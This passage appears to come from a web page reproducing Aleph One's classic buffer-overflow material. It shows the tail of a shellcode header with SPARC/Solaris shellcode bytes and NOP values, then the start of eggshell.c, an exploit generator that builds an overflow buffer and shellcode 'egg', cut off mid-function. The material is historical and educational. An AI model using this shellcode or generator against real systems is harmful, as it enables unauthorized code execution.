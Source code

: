 }

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE	4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#endif
------------------------------------------------------------------------------
{% endhighlight %}

{% highlight C %}
eggshell.c
------------------------------------------------------------------------------
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include <stdlib.h>
#include <stdio.h>
#include "shellcode.h"

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048

void usage(void);

void main(int argc, char *argv[]) {
  char *ptr, *bof, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

  while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
    switch (c) {
      case 'a':
        align = atoi(optarg);
        break;
      case 'b':
        bsize = atoi(optarg);
        break;
      case 'e':
        eggsize = atoi(optarg);
        break;